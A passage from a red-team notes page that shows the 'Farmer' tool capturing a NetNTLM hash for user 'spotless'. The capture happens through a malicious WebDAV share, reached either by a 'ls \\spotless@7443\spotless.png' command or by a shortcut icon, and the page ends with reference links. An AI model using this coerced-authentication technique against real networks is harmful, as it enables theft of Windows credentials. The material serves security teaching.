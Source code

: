 Below shows how the Farmer successfully collects a hash for the user `spotless` when they are forced to authenticate to the malicious webdav when `ls \\spotless@7443\spotless.png` is executed:

![](<../../.gitbook/assets/image (791).png>)

Below shows how the Farmer successfully collects a hash from user `spotless` via a shortcut icon that points to our malicious webdav at `\\spotless@3443\spotless.png`:

![](../../.gitbook/assets/harvest-hash-shortcut.gif)

## References

{% embed url="http://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf" %}

{% embed url="https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/" %}

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}

{% embed url="https://medium.com/@markmotig/a-better-way-to-capture-hashes-with-no-user-interaction-by-markmo-bd1569bfa208" %}

{% embed url="https://bohops.com/2018/08/04/capturing-netntlm-hashes-with-office-dot-xml-documents/" %}

{% embed url="https://twitter.com/bohops/status/1062935197107322880?s=12" %}

{% embed url="https://www.securify.nl/blog/SFY20180501/living-off-the-land_-stealing-netntlm-hashes.html" %}

{% embed url="https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/" %}

@spotheplanet
